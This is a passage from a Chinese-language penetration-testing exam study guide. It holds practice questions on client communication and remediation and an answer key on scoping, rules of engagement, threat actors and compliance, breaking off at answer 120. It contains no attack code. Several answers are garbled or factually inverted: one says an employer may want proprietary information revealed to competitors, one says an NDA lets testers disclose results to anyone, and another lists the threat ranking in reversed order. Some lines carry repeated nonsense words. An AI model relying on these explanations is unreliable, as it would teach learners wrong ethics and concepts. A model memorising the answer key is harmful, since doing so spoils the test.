## 73. 你是一名渗透测试员，正在为一个新客户进行测试。在完成对面向互联网的应用程序的测试后，你注意到该应用程序仅使用基础身份认证（basic authentication）。你应该向客户建议的最佳补救策略是什么？

1. 建议他们启用 HTTP 严格传输安全 (`HSTS`)
2. 建议他们启用安全 Cookie 标记（secure cookie flag）
3. 建议他们加密通信通道
4. 建议他们清理无效的用户输入

## 74. 你是一名渗透测试员，正在为一个新客户进行测试。在渗透测试过程中，你需要与客户沟通。以下哪些情况会导致这种通信？（选择两项）

1. 尝试测试后，系统不可用。
2. 系统显示之前被访问的迹象。
3. 系统显示不完整。
4. 测试人员在系统中发现了可识别个人身份的数据（PII）。
5. 测试人员发现了超出测试范围的内容。

## 75. 你是一名渗透测试员，刚刚完成了对新客户的测试。你给客户的报告共列出了九个漏洞，其中四个被确定为关键漏洞（critical）。客户没有预算立即修复所有漏洞。在这种情况下，你建议的最佳方案是什么？

1. 建议他们对关键漏洞应用简易的补偿措施以降低风险，然后重新调整修复优先级
2. 建议他们识别可以快速修复的漏洞并优先处理
3. 建议他们先实施影响最小的关键漏洞修复，然后处理其他关键漏洞
4. 建议他们先修复最关键的漏洞，即使这意味着修复其他漏洞需要更长时间

## 76. 你是一名渗透测试员，正在为一个新客户进行测试。在测试客户的核心服务器时，你发现了一个关键漏洞。你下一步应该做什么？

1. 完成测试，完成所有发现，然后提交给客户。
2. 立即通知客户发现详情。
3. 在目标机器上，禁用受影响服务的网络端口。
4. 将目标机器离线以防止被利用。

77. 你们公司被要求进行物理安全评估。然而，在测试期间，一个人通过尾便（piggybacking）进入了客户设施。该个人声称自己是渗透测试员并坚持释放。在提起任何入侵罪控之前，客户 IT 部门的成员拨了你们办公室的电话，确认入侵者是否真的是渗透测试团队的成员。这种通信路径被称为什么？

1. 冲突消除（De-confliction）
2. 冲突升级（De-escalation）


3. 目标重新优先级排序
4. 态势感知

78. 你是一名渗透测试员，正在为一个新客户进行测试。在测试期间，客户开始收到客户投诉，称网站响应缓慢或崩溃。客户的网络管理员发现正发生着针对公司 Web 服务器的分布式拒绝服务（DDoS）攻击。销售额开始流失，网络管理员联系了你，要求你停止 DDoS 攻击。这种通信路径被称为什么？

1. 冲突消除
2. 危机升级
3. 目标重新优先级排序
4. 态势感知

79. 你是一名渗透测试员，计划为一个新客户进行黑盒渗透测试。你已经完成了测试的侦察阶段，现在准备进入下一个测试阶段。然而，在这样做之前，你联系了客户并告知他们测试正在向前进行。使用的是哪种类型的通信触发？

1. 关键发现
2. 通信路径
3. 态势感知
4. 阶段

80. 你是一名渗透测试员，正在为一个新客户进行灰盒渗透测试。在测试期间，你发现客户的许多 Windows 桌面系统尚未更新，且容易受到攻击。你没有等到测试结束，而是联系了客户，警告他们其系统需要更新以防止任何意外的攻击。使用的是哪种类型的通信触发？

1. 关键发现
2. 通信路径
3. 态势感知
4. 阶段

# 附录

## 答案与解析

### 第 1 章：渗透测试的规划与范围

1. C. 渗透测试过程的第一步是与客户合作明确定义测试范围。范围决定了渗透测试员将做什么工作以及如何分配时间。研究组织的产品可能是在定义了工作范围后完成的任务。确定预算和获得授权通常作为整个范围确定过程的一部分完成的子任务。

2. D. 红队评估通常比普通的渗透测试更具针对性。红队充当攻击者，目标是敏感数据或系统，其目的是获取访问权限。基于目标或基于目标的评估通常旨在评估组织的整体安全性。基于合规性的评估旨在测试对特定法律的遵守情况。

3. C. 因为患者记录在美国受 HIPAA 法的保护，这是一个合规性评估的示例。基于合规性的评估旨在测试对特定法律的遵守情况。基于目标的评估通常旨在评估组织的整体安全性。灰盒和白盒评估识别了攻击者对组织的了解程度。

4. D. 白盒测试是在完全了解目标网络底层技术、配置和设置的情况下进行的。在黑盒测试中，测试人员不提供对目标环境的访问权限或信息。基于目标或基于目标的评估通常旨在评估组织的整体安全性。

5. A. 灰盒测试可能会向渗透测试员提供一些环境信息，但不提供完全访问权限、凭据或配置细节。白盒测试是在完全了解底层网络的情况下进行的。在黑盒测试中，测试人员不提供对目标环境的访问权限或信息。基于合规性的评估旨在测试对特定法律的遵守情况。

6. B. 黑盒测试有时被称为 `zero knowledge` 测试，因为它们模拟了典型的外部攻击者会遇到的情况。测试人员不提供任何访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。灰盒测试可能会向渗透测试员提供一些环境信息，但不提供完全访问权限。基于目标的评估通常旨在评估组织的整体安全性。

7. C. 灰盒测试可能会向渗透测试员提供一些环境信息，但不提供完全访问权限、凭据或配置细节。基于合规性的评估旨在测试对特定法律的遵守情况。在黑盒测试中，测试人员不提供对目标环境的访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。

8. B. 在黑盒测试中，测试人员不提供关于目标的任何访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。灰盒测试可能会向渗透测试员提供一些环境信息，但不提供完全访问权限。基于目标的评估通常旨在评估组织的整体安全性。

9. D. 白盒测试是在完全了解目标网络底层技术、配置和设置的情况下进行的。灰盒测试可能会向渗透测试员提供一些环境信息，但不提供完全访问权限。在黑盒测试中，测试人员不提供对目标环境的访问权限或信息。基于目标或基于目标的评估通常旨在评估组织的整体安全性。

10. A. 灰盒测试是黑盒和白盒测试的混合。灰盒测试通常向渗透测试员提供关于目标的有限信息，但不提供完全访问权限、凭据或配置信息。灰盒测试可以帮助集中渗透测试员的精力，同时提供关于攻击者实际会遇到什么的更准确的视图。在黑盒测试中，测试人员不提供对目标环境的访问权限或信息。基于目标或基于目标的评估通常旨在评估组织的整体安全性。白盒测试是在完全了解底层网络的情况下进行的。

11. A. 脚本小子（script kiddie）是指使用更高级黑客编写的代码进行攻击的个人。黑行动主义（hacktivist）的攻击通常具有政治动机。有组织犯罪参与者通常是高度组织化的网络犯罪分子，其主要目标是赚取大量资金。国家级威胁者代表一个国家对竞争对手造成损害。

12. D. 国家赞助的攻击者通常在政府机构的指导下运行。攻击通常针对政府承包商甚至政府系统本身。脚本小子是指使用更高级黑客编写的代码进行攻击的个人。黑行动主义的攻击通常具有政治动机。

13. C. 有组织犯罪威胁者是一个主要目标是获取利益的网络犯罪分子群体。由有组织犯罪集团发起的攻击可能持续很长时间，资金非常充足，且通常非常复杂。恶意内部攻击发生在组织内部的人员使用其合法获得的凭据进行攻击时。黑行动主义的攻击通常具有政治动机。国家级威胁者代表一个国家对竞争对手造成损害。


## 14. B
黑客主义者的攻击通常是政治动机驱动的，而非财务动机。通常，他们想要暴露他们认为腐败行为或为自己的事业争取关注。脚本小子（Script kiddie）是指使用更高级黑客编写的代码进行攻击的个人。有组织犯罪威胁者是一群网络犯罪分子，其主要目标是获取财务利益。国家级威胁者代表国家采取行动，旨在对竞争国家造成伤害。

## 15. D
恶意内部攻击发生在组织内部人员利用其合法获得的凭据实施攻击时。脚本小子是指使用更高级黑客编写的代码进行攻击的个人。黑客主义者的攻击通常是政治动机驱动的，而非财务动机。有组织犯罪威胁者是一群网络犯罪分子，其主要目标是获取财务利益。

## 16. D and E
高级持续威胁（APT）是一种长期的针对性攻击，攻击者获得网络访问权限并在其中长时间保持未被检测到的状态。因此，只有有组织犯罪攻击者或国家级攻击者可能具备执行此类攻击所需的复杂水平和资金。脚本小子、黑客主义者和恶意内部人员通常缺乏实施 APT 所需的技术知识和/或资金。

## 17. A and C
高级持续威胁（APT）通常针对高价值目标，例如政府、国防承包商、跨国组织和金融机构。在线学习网站、牙科诊所甚至社区学院作为目标的价值通常不足以达到发起 APT 的合理性。

## 18. B
黑客主义者的攻击通常是政治动机驱动的，而非财务动机。恶意内部人员通常受报仇或财务利益的驱动。有组织犯罪攻击者最可能受财务利益的驱动。脚本小子可能有多种动机，例如声名。

## 19. B
脚本小子可能有多种动机。最常见的动机之一是关注。他们经常在在线论坛和社交媒体上吹耀他们的破解成果。恶意内部人员通常受报仇或财务利益的驱动。有组织犯罪攻击者最可能受财务利益的驱动。国家级实体最可能受政治或军事目标的驱动。

## 20. D
由于白盒评估（white box assessment）为渗透测试者提供了有关目标的大量信息，因此它通常提供最彻底的评估，且通常所需时间最少。灰盒测试（gray box test）是黑盒测试和白盒测试的结合。因此，它的执行时间更长，因为测试人员必须发现更多信息。在黑盒测试（black box test）中，测试人员无法获得目标环境的访问权限或信息，这使得评估远不完整且执行时间长得多。基于目标或基于客观的评估通常旨在评估组织的整体安全性。

## 21. A and E
范围文档必须说明（除其他外）为什么要进行测试以及目标受众是谁。问题中列出的其他选项在必要时可以包含，但不是强制要求的。

## 22. A and B
交接规则（`ROE`）应始终包含任务的时间表，以及对任何专门监管目标的法律的审查，以确保你不会违反这些法律。过去测试过的其他组织列表或目标组织的竞争对手列表不太可能出现在交接规则中。目标网络的详细地图可能不会包含在黑盒或灰盒测试中。

## 23. B and C
`ROE` 应该识别哪些位置、系统、应用程序或其他潜在目标包含在测试之内或排除在测试之外。这应该识别任何可能受测试影响的第三方服务提供商，例如 `ISPs`、云服务提供商或安全监控服务。计费和仲裁程序可能会出现在你与客户之间的通用合同中，而不是 `ROE` 中。客户不太可能让你通知他们的竞争对手你正在测试他们的安全性。

## 24. B and E
`ROE` 应该指定你与客户之间何时以及如何进行通信。你应该提供每日或每周更新，还是仅在测试完成后进行报告？`ROE` 还应该指定目标方允许的行为。例如，采取规避或黑名单等防御行为可能会限制测试的价值。

## 25. C
口头许可通常被认为是不足够的。在开始渗透测试之前，你必须获得高级管理层签署的协议，授权你进行测试。如果你的活动被报告给有关部门，该协议将将作为你的“免死金牌”。此场景中描述的其他参数都定义得恰当。

## 26. D
此场景中，交接规则已定义得恰当。例如，定义目标在测试期间允许使用的防御行为是完全合理的。同样，白盒测试可能会包含有关内部网络的详细信息。将第三方服务提供商排除在测试之外也并不少见。

## 27. A
由于这是黑盒评估，测试人员不应对被测试的环境有任何先验知识，也不应对其有特殊访问权限。本质上，他们应该从与真实攻击者相同的视角攻击客户。在高峰时期暂停测试以避免干扰其关键业务运营是完全合理的。仅在测试完成后才与客户进行通信也是合理的，特别是在黑盒评估中。

## 28. B
测试协议应包含一份免责声明，表明测试仅在执行时的时间点有效，且客户要求的范围和方法可能会影响测试的完整性。`NDA` 规定了协议中的每一方允许向第三方披露的内容。仲裁条款仍可能导致不利于渗透测试顾问的和解。单独 `SOW` 除非包含前面讨论过的时点条款（point-in-time clause），否则无法保护你免受此类诉讼。

## 29. C
测试协议或范围文档应包含一份免责声明，解释客户要求的范围和方法可能会影响测试的完整性。例如，白盒测试比黑盒测试更容易发现隐藏的漏洞。采购订单是购买商品或服务的约束性协议。`MSA` 是一份定义将规范未来协议条款的协议。黑盒测试可以提供独特的视角，不应被放弃。

## 30. A and E
在交接规则文档记录问题处理和解决时，你应该清晰地定义协议双方的升级程序，以帮助尽地减少目标组织的停机时间。你还应该包含客户承认渗透测试具有固有风险的措辞。任务时间表以及范围信息也包含在 `ROE` 中，只是不在问题解决章节。


### 31. D. 交战规则 (`ROE`) 应该在渗透测试开始之前由双方明确定义并签署。如果没有建立好 `ROE`，一旦在测试过程中出现问题，你的组织将面临潜在的诉讼风险。对新客户的审核发生在确定测试范围和创建 `ROE` 文档的过程中。一个 `MSA` 定义了规范未来协议的术语。

### 32. D. 在进行渗透测试之前，你必须获得目标组织高层管理人员的书面许可以执行测试。通过口头或电子邮件获得许可通常是不可接受的。从 IT 人员处获得许可通常也是不可接受的。

### 33. A. 在黑盒渗透测试中，测试者对目标一无所知。因此，这种测试最能模拟从外部发起攻击时会发生的情况。白盒和灰盒渗透测试允许测试者对目标拥有某种程度的先验知识。

### 34. A. 在灰盒渗透测试中，测试者对目标有部分了解。这可以用于模拟由普通员工进行的恶意内部攻击。在黑盒渗透测试中，测试者对目标没有任何先验知识。在白盒测试中，测试者对目标有深入的了解。

### 35. C. 因为渗透测试者对目标并不了解，所以黑盒测试花费的时间和资金最多。相比之下，灰盒和白盒测试通常更便宜且耗时更短，因为测试者对目标拥有某种程度的先验知识。

### 36. B. 因为测试者使用内部电子邮件账户（典型员工使用的类型）进行测试，所以测试者最可能正在进行灰盒测试。在黑盒测试中，测试者必须使用外部电子邮件账户。在白盒测试中，测试者可能会使用特权权限和访问权限来执行测试。

### 37. B. 因为测试者被授予了目标网络的广泛内部访问权限，白盒测试通常提供最详尽的评估。相比黑盒或灰盒测试，可以花费更多时间探测深层漏洞。

### 38. A and B. 在这种场景下，此次任务范围限于内部网络基础设施。`Microsoft Office 365`、`Google Docs` 和 `Microsoft Azure` 都是第三方托管的云服务，因此被认为在范围之外。

### 39. A. 渗透测试规划和范围确定过程中最重要的步骤是获得目标对象对执行测试的书面许可。如果没有书面许可，你将被视为黑客，并受有关计算机犯罪的联邦、州和当地法律限制（例如 `U.S. Code, Title 18, Chapter 47, Sections 1029 and 1030`）。

### 40. C. 工作说明书 (`SOW`) 是一份定义渗透测试范围的正式文档。它准确标识了测试期间将发生什么。`MSA` 定义了规范未来协议的术语。`NDA` 规定了协议中的每一方允许向第三方披露的内容。采购订单是向供应商处购买物品的具有法律约束力的协议。

### 41. B. 保密协议 (`NDA`) 是一份法律合同，定义了哪些机密信息可以共享哪些不能共享。在大多数渗透测试协议中，`NDA` 规定测试者可能向客户以外的任何人透露测试结果。`SOW` 是一份定义渗透测试范围的正式文档。`MSA` 定义了规范未来协议的术语。采购订单是向供应商处购买物品的具有法律约束力的协议。

### 42. A. 最可能的情况下，你会要求客户签署采购订单。采购订单是向供应商处购买物品的具有法律约束力的协议。有了采购订单，你的组织就可以为花费时间和金钱定义该任务的 `SOW` 和 `NDA` 提供理由。因为客户本质上是在“尝试”你的服务，因此目前尚不需要 `MSA`，尽管未来可能需要。

### 43. A. 主服务协议 (`MSA`) 是一份合同，双方同意了规范未来协议的大部分术语。通过在 `MSA` 中定义这些术语，未来的协议达成将变得更容易、更快速。采购订单是向供应商处购买物品的具有法律约束力的协议。`SOW` 是一份定义渗透测试范围的正式文档。`NDA` 规定了协议中的每一方允许向第三方披露的内容。

### 44. B and E. 作为安全公司的一员，你可能会被雇主要求签署一份保密协议 (`NDA`) 和一份非竞争协议。`NDA` 规定了协议中的每一方允许向第三方披露的内容。你的雇主可能希望你向其竞争对手透露专有信息。非竞争协议要求你同意在未来的工作中不在竞争对手处工作，或不与你的雇主直接竞争。

### 45. A and B. 美国联邦政府使用的 `SOW` 替代方案包括目标说明书 (`SOO`) 和绩效工作说明 (`PWS`)。采购订单和非竞争协议通常不作为 `SOW` 的替代方案。

### 46. D and E. 如果客户的网络本身在范围内，那么你需要将客户的无线网络 `SSIDs` 定义在范围内。将客户的 `IP` 地址范围定义在范围内同样重要。没有第三方的书面许可，你不能针对第三方（例如邻户户或云服务提供商）。

### 47. B. 所有渗透测试人员都仔细记录他们在评估期间所采取行动日志是非常重要的。这些日志应该标识测试者做了什么、什么时候做的、使用了什么系统、攻击了什么系统以及结果如何。你应该避免仅仅依赖于测试者或客户的记忆。他们的记忆往往是不可靠且不完整的。

### 48. A. 这是一个基于目标的评估示例。目标是使用你所需的任何方法来验证组织的物理安全。合并前测试通常在一个组织与另一个组织合并之前进行。基于合规性的测试是为了确保组织继续符合政府法规或公司政策。供应链测试涉及对组织的供应商进行测试。

### 49. B. 在这种场景下需要基于合规性的评估。这是一种基于风险的评估，确保适当遵守政策或法规。很可能，信用卡公司将为组织提供一份清单，渗透测试者将使用其进行评估。基于目标的评估将指定测试需要实现的目标。供应链评估涉及对组织的供应商进行测试。红队评估通常由内部测试人员进行，以确保组织的 IT 员工（蓝队）能够充分防御网络。

### 50. B. 在两个组织合并之前，通常会进行渗透测试，以识别在连接网络之前需要解决的安全漏洞。目标评估旨在测试信息是否可以保持安全。基于合规性的测试是为了确保组织继续符合政府法规或公司政策。供应链测试涉及对组织的供应商进行测试。


### 51
D. 在供应链评估中，会对组织的供应商进行渗透测试，以确保它们的网络是安全的，且不会被用作跳板来危害组织本身。基于目标的评估旨在测试组织安全性的特定方面。合并前测试通常在一个组织与另一个组织合并之前对其进行。

### 52
D. 红队评估通常由内部测试人员进行，以确保组织的 IT 员工（蓝队）能够充分地防御网络。基于目标的评估旨在测试组织安全性的特定方面。供应链测试涉及对组织供应商的测试。基于合规性的测试是为执行的，以确保组织持续符合政府法规或公司政策。

### 53
A. 一般而言，如果你要将威胁行为者按威胁程度从低到高进行分级，看起来可能如下所示：`脚本小子 > 黑客行动主义 > 恶意内部人员 > 有组织的犯罪集团 > 国家级攻击者`。

### 54
C. 这是一个威胁建模的示例。通过威胁建模，你可以确定在渗透测试期间想要模拟的威胁类型。然后，你使用该类型威胁通常会使用的相同工具、技术和方法。

### 55
A. 这是一个风险接受的示例。你已经评估了客户对渗透测试可能给组织带来的影响的承受能力。让客户准备并能够渗透测试可能导致网络中断或服务中断这一事实是非常重要的。

### 56
D. 这是一个范围蔓延的示例。范围蔓延是在评估范围中增加额外的参数和/或目标。这是一个常见现象，应该在最初的范围界定中进行规划。例如，你和客户可以就如果测试范围需要扩大时可以进行的定价和进度调整达成一致。

### 57
A. 许多渗透测试工具可能受到出口限制。美国禁止出口某些类型的软件和硬件，包括加密工具。如果你携带你的渗透测试工具包去国外，如果你随身携带禁止的软件或硬件，你可能会被逮捕。

### 58
C. 许多渗透测试工具可能受到出口限制。美国禁止出口某些类型的软件和硬件，包括加密工具。如果你通过互联网向国际传输这些工具，你可能会被逮捕。

### 59
D. 适用于渗透测试和渗透测试人员的法律法规在美国各州之间有所不同。这意味着你需要了解哪些法律适用于你正在工作。在这种情况下，你需要检查适用于你计划执行的评估的所有联邦、州和当地法律。建议聘请律师服务以避免陷入麻烦。

### 60
A. Web 服务描述语言（`WSDL`）是一种基于 XML 的接口定义语言，用于描述 `SOAP` 服务提供的功能。

### 61
C. Web 应用程序描述语言（`WADL`）是一种基于 XML 的、机器可读的基于 HTTP 的网络服务的描述。因此，它通常用于 `REST` 服务而不是 `SOAP`。

### 62
B and D. 应用程序编程接口（`API`）文档描述了软件组件如何通信。软件开发包（`SDKs`）也附带文档。组织可以创建自己的 `SDKs`、使用商业 `SDKs` 或使用开源 `SDKs`。了解正在使用哪些 `SDKs` 以及它们在哪里可以帮助渗透测试人员测试应用程序，特别是内部开发的应用程序。

### 63
D. 黑盒渗透测试应该模拟外部攻击者对网络的视图。因此，测试人员对内部网络应该几乎了解或完全不了解。

### 64
D. 在白盒测试中，你应该能够获得广泛的内部文档。因为内部开发的应用程序将用作攻击向量，你应该要求客户提供尽可能关于该应用程序的文档。例如，你应该要求提供架构图、示例应用程序请求以及适用的 `swagger` 文档。

### 65
C and E. 在作为白盒测试的一部分请求内部架构图时，你通常会被提供如网络拓扑图和设施平面图之类的文档。你可以使用这些信息来绘制网络拓扑结构并定位关键基础设施设备，如交换机、路由器和服务器。

### 66
A and D. 示例应用程序请求通常用于测试内部开发的应用程序（桌面或 Web 端）。内部开发的应用程序通常不会接受与商业应用程序相同水平的审查，这使得它们成为可以被利用的可能攻击向量。商业应用程序（如 `Word`、`Excel` 或 `Photoshop`）通常不需要示例应用程序请求，因为它们的弱点已经有了详尽的记录。

### 67
C. 内部开发的应用程序通常不会接受与商业应用程序相同水平的审查，这使得它们成为可以被利用的可能攻击向量。例如，在生成示例应用程序请求时，大多数渗透测试人员向内部开发的应用程序发送意外信息，查看应用程序的响应。例如，你可能会发现，在一个只需要八个字符的字段中输入非常长的文本字符串可能会产生缓冲区溢出错误。然后你可以利用这种糟糕的错误处理行为在托管应用程序的 Web 服务器上插入运行恶意代码。

### 68
A. 简单对象访问协议（`SOAP`）是一种消息协议规范，定义了结构化信息如何在 Web 应用之间交换。`SOAP` 项目文件可以从 Web 服务描述语言（`WSDL`）文件创建。

### 69
D. `Swagger` 是一个开源框架，旨在帮助开发者设计、构建、文档和测试表征状态转移（`REST`）Web 服务。`REST` 是 `SOAP` 协议的替代方案。事实上，`REST` 已开始取代 `SOAP` 的首首的首框架。

### 70
B. 表征状态转移（`REST`）Web 应用架构基于超文本传输协议（`HTTP`）。

### 71
A. Web 服务描述语言（`WSDL`）是一种基于 XML 的接口定义语言，用于描述 Web 服务器（如 `SOAP` 服务器）提供的功能。`WSDL` 与表征状态转移（`REST`）Web 应用架构配合得并不好，后者在多年来一直在逐渐取代 `SOAP`。

### 72
B. Web 应用程序描述语言（`WADL`）提供了运行在 Web 应用服务器上的基于 HTTP 的网络服务的 XML 描述。`WADL` 通常用于 `REST` 服务。`WADL` 是 `WSDL` 的替代方案，通常被认为更容易使用，但也缺乏 `WSDL` 相关的灵活性。

### 73
B. XML 架构定义（`XSD`）是一种 W3C 规范，标识了如何在 XML 文档中定义元素。

### 74
D. 在进行白盒渗透测试时，特别是针对内部开发应用程序的测试，拥有创建应用程序的 `SDK` 文档将非常有帮助。数据流图也可以帮助渗透测试人员理解目标应用程序如何与其他网络服务通信。配置文件可能包含帐户信息、IP 地址、API 密钥甚至可能的密码。


### 75. B and D
在进行白盒评估时，你通常希望客户在他们的 `IPS` 中将测试人员的用户账户加入白名单。这将防止他们在开始探测防御措施时被拦截。他们还应该配置安全异常，允许渗透测试人员的系统绕过 `NAC` 安全控制。

### 76. E
在这种场景下进行的是黑盒测试，客户的网络应处于“盾开启”模式。渗透测试人员不应拥有内部用户账户，其系统也不应允许绕过 `NAC` 安全控制。不应允许 `Certificate pinning`（证书固化）。

### 77. A
通常，当通过 `IPSec` 实现 `NAC` 时，客户在连接到内部安全网络之前必须满足公司安全策略。如果满足，他们将被分配一个数字证书，允许他们与内部安全网络上的其他系统进行通信。为了绕过 `NAC`，可以使用 `certificate pinning` 为测试人员的系统分配数字证书，而无需每次连接时都证明其合规性。

### 78. A
这是一个风险规避的示例。通过移除门并用混凝土填充墙体，客户完全消除了攻击者利用门未经授权访问设施的风险。

### 79. C
这是一个风险缓解的示例。客户并没有完全消除风险，而是使用了安保人员作为应对措施。未经授权的风险仍然存在，但安保人员的使用控制了该风险。

### 80. B
这是一个风险转移的示例。客户没有规避风险或缓解风险，而是将风险转移给了第三方处理商。

### 81. B
这是一个风险转移的示例。客户没有通过搬到新地点来规避风险或通过对设施进行地震升级来缓解风险，而是将风险转移给了保险公司。

### 82. D
在这种场景下，客户确定该风险是可接受的，并且不会采取措施控制它。通常，当一个机构确定消除或控制风险的成本超过了由该风险引发的安全事件成本时，就会发生这种情况。

### 83. B
由于这是合规性渗透测试，你首先需要访问 `PCI-DSS` 标准并审查客户被视为“合规”的要求。通常，管理机构会发布你应当使用的检查清单来评估合规性。这些清单将对测试范围、预算和进度产生重大影响。

### 84. A and B
支付卡行业数据安全标准 (`PCI-DSS`) 是一套企业要求实施以保护信用卡数据的安全控制措施。例如，其中两项要求规定组织必须限制对所有持卡人数据的物理访问，并使 `CDE` 网络与网络的其余部分隔离。

### 85. B and E
支付卡行业数据安全标准 (`PCI-DSS`) 是一套企业要求实施以保护信用卡数据的安全控制措施。例如，其中两项要求规定所有持卡人数据在通过网络介质传输之前必须进行加密，并且从部署的硬件和软件中删除所有默认密码。

### 86. A
支付卡行业数据安全标准 (`PCI-DSS`) 是一套企业要求实施以保护信用卡数据的安全控制措施。例如，其中一项要求规定在所有系统上必须安装防病毒软件，并且必须定期更新。

### 87. A
支付卡行业数据安全标准 (`PCI-DSS`) 是一套企业要求实施以保护信用卡数据的安全控制措施。例如，其中一项要求规定在组织内部必须执行强密码策略。

### 88. A and D
支付卡行业数据安全标准 (`PCI-DSS`) 是一套企业要求实施以保护信用卡数据的安全控制措施。例如，其中两项要求规定组织必须监控并审计对持卡人数据的所有访问，并且对这些数据的访问必须根据“知其所需”原则进行限制。

### 89. A
《格姆-莱奇法案》(GLBA) 监管金融机构如何处理客户个人信息。例如，它要求公司拥有一书面信息安全计划，识别旨在保护这些信息的流程和程序。

### 90. C
1996 年《健康保险流通性与责任法》(HIPAA) 监管医疗机构。他们必须遵守该法案规定的规则和条例，例如要求进行风险分析并测试组织的安全控制。

### 91. B
《萨班斯-奥克斯法案》(Sarbanes-Oxley) 对美国上市公司的安全策略、标准和控制制定了标准。例如，它为网络访问、身份验证和安全设定了标准。

### 92. D
`FIPS 140-2` 是美国政府认证加密模块的安全标准。

### 93. C
在这种场景下，花在了解渗透测试目标受众上的时间不足。本应该花时间与客户交流他们的组织、测试目标等。只有在此之后，才应该创建范围。

### 94. D
在这种场景下，结果的机密性没有得到维护。该博客文章泄露了太多关于客户的信息。客户可能需要几周甚至几个月来解决评估中发现的问题。通过公开发布结果，你使客户暴露在潜在的攻击之中。

### 95. A and C
范围划分过程的一部分是确定渗透测试是评估组织对特定已知漏洞的敏感性，还是应该调查未知漏洞。由于这是黑盒测试，客户可能不会提供用户账户或设施的物理访问。

### 96. C
在这种场景下，最好的方法是与客户进行影响分析并确定他们对影响的忍度。使用漏洞扫描器获得的信息是否值得承担潜在风险？对于某些组织来说，这种风险是值得的；对于另一些组织则不然。无论如何，在影响分析完成之前，测试人员都不应使用工具。

### 97. B and C
客户可能想知道结束后结束后提供什么样的报告。他们还想知道根据测试结果修复系统需要多长时间。

### 98. B
通常，渗透测试相关的技术限制会识别出哪些系统可以测试，哪些不能测试。例如，假设客户使用自动化机器人生产设备制造产品。这些设备非常贵，他们可能不希望将其纳入测试范围。

### 99. C
由于这是灰盒渗透测试，你应该询问客户是希望在现场进行测试，还是希望你从远程地点进行测试。现场测试可能会产生更好的结果，但成本更高，因为测试人员会产生差旅费。远程测试成本较低，因为不需要差旅费，但产生的质量可能较低。

### 100. B
黑盒测试旨在模拟外部攻击。渗透测试人员应该与典型的外部攻击者具有相同的视角。因此，他们的位置应该以类似的方式，即位于任何外部位置。


### 101. A 和 E
使用内部团队进行渗透测试有两个主要优点。首先，他们对组织有背景知识，这可以提高测试的有效性。其次，使用内部员工进行测试通常比聘请渗透测试承包商成本更低。当内部人员没有参与渗透测试时，他们可以为组织处理其他项目。

### 102. B 和 C
聘请外部渗透测试团队的明确目的是为了执行渗透测试。由于他们不是直接雇佣于组织，因此往往具有较高的独立性。他们不需要担心发现漏洞会引起经理或总监的不悦。事实上，他们通常对这类事件感到很高兴。此外，由于他们没有参与组织网络基础设施的设计或持续维护，因此他们往往较少偏见。

### 103. C 和 D
内部渗透测试团队可能与组织的关系过于紧密。例如，他们可能担心在渗透测试期间发现的漏洞会反映出他们团队的形象，因为他们很可能设计了并持续维护着被测试的网络。这可能导致在进行渗透测试时缺乏客观性。

### 104. A 和 C
使用外部承包商团队进行渗透测试有几个应该考虑的缺点。首先，如果他们也为你的某个竞争对手提供渗透测试，可能会存在利益冲突。其次，他们的费用通常相当昂贵。

### 105. C
渗透测试人员必须采取不同的思维方式。他们不需要尝试防御所有可能的威胁，而只需要找到一个可以利用以来实现目标的漏洞。为了找到这些漏洞，他们必须像可能在现实世界中攻击系统的对手一样思考。这种方法通常被称为`adopting the hacker mind-set`。

### 106. A
网络安全专业人员使用著名的 CIA 三元模型来描述信息安全的目标。`CIA` 中的 `C` 代表机密性（confidentiality），旨在防止对信息或系统的未经授权访问。

### 107. B
网络安全专业人员使用著名的 CIA 三元模型来描述信息安全的目标。`CIA` 中的 `I` 代表完整性（integrity），旨在防止对信息或系统进行未经的修改。

### 108. C
网络安全专业人员使用著名的 CIA 三元模型来描述信息安全的目标。`CIA` 中的 `A` 代表可用性（availability），确保信息对于授权访问保持可用。

### 109. A
攻击者（以及渗透测试人员）试图使用 `DAD` 三元模型的对应目标来破坏 `CIA` 三元模型的目标。`DAD` 中的第一个 `D` 代表泄露（disclosure），指的是获取对信息或系统的未经授权访问。

### 110. B
攻击者（以及渗透测试人员）试图使用 `DAD` 三元模型的对应目标来破坏 `CIA` 三元模型的目标。`DAD` 中的 `A` 代表篡改（alteration），指的是对信息或系统进行未经授权的更改。

### 111. C
攻击者（以及渗透测试人员）试图使用 `DAD` 三元模型的对应目标来破坏 `CIA` 三元模型的目标。`DAD` 中的第二个 `D` 代表拒绝（denial），指的是阻止对信息或系统的合法使用。

### 112. A
渗透测试人员试图使用 `DAD` 三元模型的对应目标来破坏 `CIA` 三元模型的目标。`DAD` 中的第一个 `D` 代表泄露（disclosure），指的是获取对信息或系统的未经授权访问。在这种场景中，Natasha 访问了后端数据库中她本不应该访问的信息。

### 113. C
攻击者（以及渗透测试人员）试图使用 `DAD` 三元模型的对应目标来破坏 `CIA` 三元模型的目标。`DAD` 中的 `A` 代表篡改（alteration），指的是对信息或系统进行未经授权的更改。在这种场景中，Kimberly 通过增加一个未经授权的用户账户更改了身份验证系统。

### 114. D
攻击者（以及渗透测试人员）试图使用 `DAD` 三元模型的对应目标来破坏 `CIA` 三元模型的目标。`DAD` 中的第二个 `D` 代表拒绝（denial），指的是阻止对信息或系统的合法使用。在这种场景中，Jessica 对文件服务器执行了拒绝服务（`DoS`）攻击，拒绝了对它的合法访问。

### 115. C
攻击者（以及渗透测试人员）试图使用 `DAD` 三元模型的对应目标来破坏 `CIA` 三元模型的目标。`DAD` 中的 `A` 代表篡改（alteration），指的是对信息或系统进行未经授权的更改。在这种场景中，Brittany 修改了员工薪资核算系统。

### 116. C 和 D
`PCI-DSS` 标准要求处理信用卡业务的组织至少每年进行一次内部和外部渗透测试。如果需要，他们可以更频繁地进行，但并非强制要求。这些组织在对网络基础设施进行重大更改后，也必须进行渗透测试。

### 117. A
这种讨论本应该在规划和范围确定阶段进行。渗透测试公司和客户应该在测试开始前就完成评估规则达成一致。这些信息应该记录在一份书面的工作说明书（`SOW`）中，明确标识出渗透测试人员被允许使用的工具和技术以及使用这些工具的风险。

### 118. D
工作说明书（`SOW`）是一种应该在规划和范围确定阶段定义的协议。它包含了渗透测试人员与客户之间的工作协议，确定了测试的技术、工具、活动、交付物和进度。它可以与现有的主协议（`MSA`）配合使用。

### 119. D
白盒渗透测试提供了对内部网络的访问，包括路由器、交换机、访问点和服务器等关键设备的配置设置。由于这个原因，白盒测试有时被称为全知识测试。

### 120. A
